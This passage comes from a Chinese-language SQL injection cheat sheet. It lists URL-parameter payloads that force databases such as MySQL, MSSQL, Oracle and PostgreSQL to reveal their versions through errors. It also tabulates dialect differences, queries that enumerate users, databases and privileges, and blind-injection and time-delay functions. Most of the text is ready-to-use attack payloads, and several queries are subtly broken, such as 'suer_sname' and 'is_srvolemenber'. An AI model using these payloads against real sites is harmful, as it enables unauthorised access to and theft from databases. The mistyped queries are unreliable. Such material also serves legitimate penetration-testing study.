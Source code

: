 ### 3.2 版本查询

*   Mysql:`/?param=1 select count(*) from information_schema.tables group by concat(version(),floor(rand(0)*2))`
*   MSSQL:`/?param=1 and(1)=convert(int,@@version)--`
*   Sybase:`/?param=1 and(1)=convert(int,@@version)--`
*   Oracle >=9.0:`/?param=1 and(1)=(select upper(XMLType(chr(60)||chr(58)||chr(58)||(select replace(banner,chr(32),chr(58)) from sys.v\_$version where rownum=1)||chr(62))) from dual)—`
*   PostgreSQL:`/?param=1 and(1)=cast(version() as numeric)--`

### 3.3 SQL方言差异

| DB | 连接符 | 行注释 | 唯一的默认表变量和函数 |
| --- | --- | --- | --- |
| MSSQL | %2B（URL+号编码）(e.g. ?category=sho’%2b’es) | -- | @@PACK_RECEIVED |
| MYSQL | %20 （URL空格编码） | # | CONNECTION_ID() |
| Oracle | `||` | -- | BITAND(1,1) |
| PGsql | `||` | -- | getpgusername() |
| Access | “a” & “b” | N/A | msysobjects |

### 3.4 SQL常用语句

**SQL常用语句**

| 内容 | MSSQL | MYSQL | ORACLE |
| --- | --- | --- | --- |
| 查看版本 | select @@version | select @@version select version() | Select banner from v$version; |
| 当前用户 | select system_users; select suer_sname(); select user; select loginname from master..sysprocesses WHERE spid =@@SPID; | select user(); select system_user(); | Select user from dual |
| 列出用户 | select name from master..syslogins; | select user from mysql.user; | Select username from all_users ORDER BY username; Select username from all_users; |
| 当前库 | select DB_NAME(); | select database(); | Select global_name from global_name; |
| 列出数据库 | select name from master..sysdatabases; | select schema_name from information_schema.schemata; | Select ower,table_name from all_users; #列出表明 |
| 当前用户权限 | select is_srvolemenber(‘sysadmin’); | select grantee, privilege_type,is_grantable from information schema.user privileges; | Select * from user role_privs; Select * from user_sys_privs; |
| 服务器主机名 | select @@servername; | / | Select sys_context(‘USERENV’,’HOST’) from dual; |

![p3](http://drops.javaweb.org/uploads/images/89ee294ed22d03ee2a96a3526fb72ecb83b52e5d.jpg)

### 3.5 盲注函数

| 数据 | MSSQL | Mysql | oracle |
| --- | --- | --- | --- |
| 字符串长度 | LEN() | LENGTH() | LENGTH() |
| 从给定字符串中提取子串 | SUBSTRING(string,offset,length) | SELECT SUBSTR(string,offset,length) | SELECT SUBSTR(string,offset,length) From dual |
| 字符串(‘ABC’)不带单引号的表示方式 | SELECT CHAR(0X41)+CHAR(0X42)+ CHAR(0X43) | Select char(65,66,67) | Select chr(65)||chr(66)+chr(67) from dual |
| 触发延时 | WAITFOR DELAY ‘0:0:9’ | BENCHMARK(1000000,MD5(“HACK”)) Sleep(10) | BEGIN DBMS_LOCK.SLEEP(5);END; --(仅PL/SQL注入) UTL_INADDR.get_host_name() UTL_INADDR.get_host_address() UTL_HTTP.REQUEST() |
| IF语句 | If (1=1) select ‘A’ else select ‘B’ | SELECT if(1=1,’A’,’B’) | / |
